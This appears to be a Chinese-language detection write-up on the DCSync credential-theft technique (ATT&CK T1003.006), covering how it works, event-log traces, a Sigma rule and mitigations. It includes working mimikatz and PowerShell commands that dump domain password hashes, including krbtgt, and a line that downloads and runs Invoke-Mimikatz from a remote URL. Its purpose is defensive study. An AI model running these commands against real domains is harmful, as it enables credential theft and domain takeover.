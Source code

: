 # T1003-006-windows-基于DCsync凭证获取

## 来自ATT&CK的描述

攻击者可能会通过滥用Windows域控制器的应用程序编程接口（API）来访问凭据和其他敏感信息，从而使用称为DCSync的技术来模拟来自远程域控制器的复制过程。

域控制器上的Administrators，Domain Admins和Enterprise Admin组或计算机帐户的成员能够运行DCSync来从Active Directory中提取密码数据，其中可能包括潜在有用帐户（例如KRBTGT和管理员。然后，这些散列又可以用于创建“黄金票证”，以用于“传递票证” 或更改“ 帐户操作”中所述的帐户密码。

DCSync功能已被列入“lsadump”模块中Mimikatz。Lsadump还包括NetSync，它通过旧版复制协议执行DCSync。

### DCsync

DCSync 是一种后期杀伤链攻击，允许攻击者模拟域控制器（DC）的行为，以便通过域复制检索密码数据。一旦攻击者可以访问具有域复制权限的特权帐户，攻击者就可以利用复制协议来模仿域控制器。

![img](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/uk1Q6x.png)

**DCSync**  本身是**Mimikatz**中的一个命令，  [它](https://github.com/gentilkiwi/mimikatz) 依赖于利用Microsoft目录复制服务远程协议（MS-DRSR）中的特定命令来模拟域控制器的行为，并要求其他域控制器使用[目录复制服务远程协议](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47)来复制信息  [（MS-DRSR）](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47)。利用这些协议，此攻击利用了Active Directory的有效和必要功能，无法关闭或禁用它们。

### DCsync攻击原理

一般来说，DCSYNC攻击的工作方式如下：

1. 发现域控制器以请求复制。
2. 使用[GetNCChanges](https://wiki.samba.org/index.php/DRSUAPI) 函数请求用户复制 。
3. DC将复制数据返回给请求者，包括密码哈希值。

![img](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/uk1ttH.gif)

DCSync的经典用例是作为[Golden Ticket](https://attack.stealthbits.com/how-golden-ticket-attack-works) 攻击的前身，因为它可用于检索KRBTGT HASH。

### 所需权限

值得注意的是，为了执行此攻击，需要一些非常特权的权限。这就是为什么这种攻击被归类为在杀伤链攻击的后期发生的原因，并且攻击者通常需要一些时间才能获得这些权限。

通常，管理员，域管理员，企业管理员拥有所需的权限，但更具体地说，需要以下权限：

- 复制目录更改
- 复制目录全部更改
- 在筛选集中复制目录更改

## 测试案例

DCSync是mimikatz在2015年添加的一个功能，由Benjamin DELPY gentilkiwi和Vincent LE TOUX共同编写，能够用来导出域内所有用户的hash.

**利用条件：**

获得以下任一用户的权限：

- Administrators组内的用户
- Domain Admins组内的用户
- Enterprise Admins组内的用户
- 域控制器的计算机帐户

利用DRS(Directory Replication Service)协议通过IDL_DRSGetNCChanges从域控制器复制用户凭据

### 1.使用mimikatz

导出域内所有用户的hash：

```dos
mimikatz.exe privilege::debug "lsadump::dcsync /domain:abcc.org /all /csv" exit
```

导出域内administrator帐户的hash：

```dos
mimikatz.exe privilege::debug "lsadump::dcsync /domain:abcc.org /user:administrator /csv" exit
```

#### 2.powershell实现

通过Invoke-ReflectivePEinjection调用mimikatz.dll中的dcsync功能

导出域内所有用户的hash：

```powershell
Invoke-DCSync -DumpForest | ft -wrap -autosize
```

导出域内administrator帐户的hash：

```powershell
Invoke-DCSync -DumpForest -Users @("administrator") | ft -wrap -autosize
```

## 检测日志

windows 安全日志

## 测试复现

复现方法分为两类：本地、远程

### 场景:在本地运行DCsync,利用powershell脚本Invoke-Mimikatz

 在Windows域控服务器上启动powershell，然后下载Invoke-Mimikatz。

```powershell
iex (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')
```

 完成后，我们可以使用以下命令运行DCSync。

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt /domain:0day.org"'
```

## 测试留痕

windows 安全日志，4662（在对象上已执行操作），特征值：*1131f6ad-9c07-11d1-f79f-00c04fc2dcd2，控制访问*

## 检测规则/思路

DCSync是一个强大的工具，在红色团队成员手中，对于蓝色团队成员而言，这是一场噩梦。对于蓝队，一切都不会丢失。停止这种攻击可能不可行，但可以将其检测出来。

检测方法： 网络监控 、事件ID检测

### sigma规则

```yml
title: 在DCSync位置进行检测
description: windows server 2008 测试结果（域控本地）
references: https://yojimbosecurity.ninja/dcsync/
tags: T1003-006
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4662 #在对象上已执行操作。
        Operationtype: 'Obeject Access' #操作>操作类型
        Access: '访问控制' #操作>访问
        Properties:
             - '*1131f6aa-9c07-11d1-f79f-00c04fc2dcd2*'  #特征值 mimikatz导出域账户
             - '*1131f6ad-9c07-11d1-f79f-00c04fc2dcd2*'  #特征值 mimikatz导出administrator
             - ‘*89e95b76-444d-4c62-991a-0facbeda640c*’  #特征值
    condition: selection
level: medium
```

### 建议

暂无

## 缓解措施及临时性解决方案

免受DCSync攻击的最佳保护是控制负责允许帐户复制更改的域权限。不可避免地，某些用户将拥有此权利，因此应受到保护。

为避免将特权密码详细信息存储在攻击者可能会破坏它们的位置，应使用分层的登录协议来防止特权帐户登录到可以从内存中转储其密码哈希值并用于获取执行密码所需权限的服务器和工作站。

## 参考推荐

MITRE-ATT&CK-T1003-006

<https://attack.mitre.org/techniques/T1003/006>

什么是DCSYNC？一个介绍

<https://blog.stealthbits.com/what-is-dcsync/>

域渗透——DCSync

<https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DCSync/>

DCsync利用原理

<https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47>

powershell工具实现

<https://gist.github.com/monoxgas/9d238accd969550136db>

DCsysnc检测

<https://yojimbosecurity.ninja/dcsync/>

Active Directory复制

<https://github.com/hunters-forge/ThreatHunter-Playbook/blob/master/library/active_directory_replication.md>
